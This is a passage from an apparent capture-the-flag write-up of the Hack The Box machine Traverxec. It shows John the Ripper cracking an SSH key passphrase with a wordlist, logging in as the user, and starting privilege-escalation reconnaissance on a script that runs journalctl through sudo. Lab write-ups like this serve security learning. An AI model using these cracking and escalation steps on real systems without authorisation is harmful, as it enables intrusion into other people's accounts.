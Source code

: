 And now to let john do his work:

```console
root@kali:~/htb/traverxec/home/david/.ssh# john --wordlist=/usr/share/wordlists/rockyou.txt.gz david_hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Session completed
```
so we've got the best password ever to exist - `hunter`. Time to check if I can ssh into the box as david with hunter, and remember to use `-i` to force using the key specified. I forgot that at first.

```console
root@kali:~/htb/traverxec/home/david/.ssh# ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ ls
bin  public_www  user.txt
david@traverxec:~$ cat user.txt 
7db0b*****************782f3d
```

## Root Flag

Now for privesc. The thing I noticed, after getting the user flag first, was that there is a `bin` directory in david's home directory.

```console
david@traverxec:~$ cd bin
david@traverxec:~/bin$ ls
server-stats.head  server-stats.sh
david@traverxec:~/bin$ cat server-stats.head 
                                                                          .----.
                                                              .---------. | == |
   Webserver Statistics and Data                              |.-"""""-.| |----|
         Collection Script                                    ||       || | == |
          (c) David, 2019                                     ||       || |----|
                                                              |'-.....-'| |::::|
                                                              '"")---(""' |___.|
                                                             /:::::::::::\"    "
                                                            /:::=======:::\
                                                        jgs '"""""""""""""' 

david@traverxec:~/bin$ cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```
My intuition tells me that this is something that I should explore further. 
